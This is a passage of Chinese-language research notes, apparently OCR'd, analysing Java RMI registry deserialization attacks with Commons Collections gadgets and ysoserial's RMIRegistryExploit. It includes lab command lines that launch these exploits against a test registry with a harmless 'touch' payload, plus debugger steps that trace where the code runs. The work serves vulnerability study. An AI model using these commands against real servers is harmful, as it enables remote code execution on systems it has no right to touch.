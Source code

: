 ```java

GeneralInvocationHandler3不像AnnotationInvocationHandler，前者没有实现
readObject()，于是ObjectInputStream.readObject()不会调用想像中
的GeneralInvocationHandler3.readObject()。在反序列化过程尝试寻找
GeneralInvocationHandler3未果，内层函数抛出异常，但外层捕获这种异常，并有
相应处理使这种异常可以发往客户端。找不到GeneralInvocationHandler3？无所谓，
流程继续，仍将触发恶意代码。GeneralInvocationHandler3存在的意义仅仅是让客
户端可以生成remoteProxy，服务端的中招流程不需要它。

再次说明，别瞎YY，如果怀疑别人([57])的说法，就去验证之。要是不验证就喷，丢
大发人了。

之前我还YY过，是不是先触发恶意代码再尝试寻找GeneralInvocationHandler3？一
般来说抛异常时流程就中止了。曾经把这个YY想法记了一笔，但在写简化版调用关系
时得严谨，用Eclipse的条件断点看调用栈，用BC对比exec()的调用栈，就发现分岔
点在"readOrdinaryObject:1774"，发现之前的YY是错的。写文档是一个再提升的过
程，对自己要求严一些没坏处。

调试EvilRMIRegistryClientWithBadAttributeValueExpException3，确认恶意代码
不是在客户端执行的:

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
EvilRMIRegistryClientWithBadAttributeValueExpException3 192.168.65.23 1099 \
"/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

无命中，放心了。

9) ysoserial/RMIRegistryExploit

参[52]

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/RMIRegistryExploit.java

java_8_40 \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

java \
-cp ysoserial-0.0.6-SNAPSHOT-all.jar \
ysoserial.exploit.RMIRegistryExploit 192.168.65.23 1099 CommonsCollections5 \
"/bin/touch /tmp/scz_is_here"

回顾整个攻击链，服务端看到的是remoteProxy，对之反序列化，只要有个什么东西
跟remoteProxy有关联，就会一块反序列化。InvocationHandler天然与remoteProxy
有关联，从而只要有个什么东西与InvocationHandler有关联，就会一块反序列化。

如果不仔细，看RMIRegistryExploit.java的代码有可能引起误会，main()中有一句:

String className = CommonsCollections1.class.getPackage().getName() + "." + args[2];

有人说RMIRegistryExploit用的是CommonsCollections1，再仔细看，是这么回事吗？
这句代码实际相当于:

String className = "ysoserial.payloads" + "." + args[2];

10) sun.rmi.registry.RegistryImpl.checkAccess
```